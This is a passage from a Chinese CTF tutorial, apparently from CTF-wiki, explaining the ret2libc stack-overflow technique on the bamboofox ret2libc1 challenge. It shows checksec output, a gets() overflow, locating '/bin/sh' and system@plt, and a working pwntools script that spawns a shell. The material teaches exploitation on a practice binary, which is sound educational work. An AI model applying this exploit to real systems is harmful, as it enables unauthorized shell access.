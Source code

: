 ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置(即函数对应的 got表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

### 例子

我们由简单到难分别给出三个例子。

#### 例1

这里我们以 bamboofox 中 ret2libc1 为例  

点击下载: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

首先，我们可以检查一下程序的安全保护

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，开启了 NX 保护。下面来看一下程序源代码，确定漏洞位置

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```shell
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行 system 函数。相应的 payload 如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
